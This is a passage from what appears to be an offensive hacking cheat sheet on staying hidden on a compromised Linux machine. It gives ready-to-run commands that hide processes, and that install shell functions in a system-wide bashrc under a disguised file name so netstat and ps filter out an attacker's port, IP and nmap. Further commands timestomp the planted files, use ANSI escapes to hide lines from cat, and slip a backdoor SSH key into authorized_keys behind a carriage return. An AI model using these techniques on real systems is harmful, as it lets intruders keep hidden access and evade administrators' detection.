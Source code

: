 ```sh
```

To hide a command use:
```sh
hide                                 # Hides the current shell/PID
hide 31337                           # Hides process with pid 31337
hide sleep 1234                      # Hides 'sleep 1234'
hide nohup sleep 1234 &>/dev/null &  # Starts and hides 'sleep 1234' as a background process
```

(thanks to *druichi* for improving this)

<a id="hide-scripts"></a>
**1.vii. Hide shell scripts**

Above we discussed how to obfuscate a line in ~/.bashrc. An often used trick is to use `source` instead. The source command can be shortened to `.` (yes, a dot) _and_ it also searches through the $PATH variable to find the file to load.

In this example our script ```prng``` contains all of our shell functions from above. Those functions hide the `nmap` process and the network connection. Last we add `. prng` into the systemwide rc file. This will load `prng` when the user (and root) logs in:

```shell
echo -e 'netstat(){ command netstat "$@" | grep -Fv -e :31337 -e 1.2.3.4; }
ps(){ command ps "$@" | exec -a GREP grep -Fv -e nmap  -e GREP; }' >/usr/bin/prng \
&& echo ". prng #Initialize Pseudo Random Number Generator" >>/etc/bash.bashrc \
&& touch -r /etc/ld.so.conf /usr/bin/prng /etc/bash.bashrc
```

(The same works for `lsof`, `ss` and `ls`)

<a id="cat"></a>
**1.viii. Hide from cat**

ANSI escape characters or a simple `\r` ([carriage return](https://www.hahwul.com/2019/01/23/php-hidden-webshell-with-carriage/)) can be used to hide from `cat` and others.

Hide the last command (example: `id`) in `~/.bashrc`:
```sh
echo -e "id #\\033[2K\\033[1A" >>~/.bashrc
### The ANSI escape sequence \\033[2K erases the line. The next sequence \\033[1A
### moves the cursor 1 line up.
### The '#' after the command 'id' is a comment and is needed so that bash still
### executes the 'id' but ignores the two ANSI escape sequences.
```
Note: We use `echo -e` to convert `\\033` to the ANSI escape character (hex 0x1b).

Adding a `\r` (carriage return) goes a long way to hide your ssh key from `cat`:
```shell
echo "ssh-ed25519 AAAAOurPublicKeyHere....blah x@y"$'\r'"$(<authorized_keys)" >authorized_keys
### This adds our key as the first key and 'cat authorized_keys' won't show
### it. The $'\r' is a bash special to create a \r (carriage return).
```

<a id="parallel"></a>
**1.ix. Execute in parallel with separate logfiles***
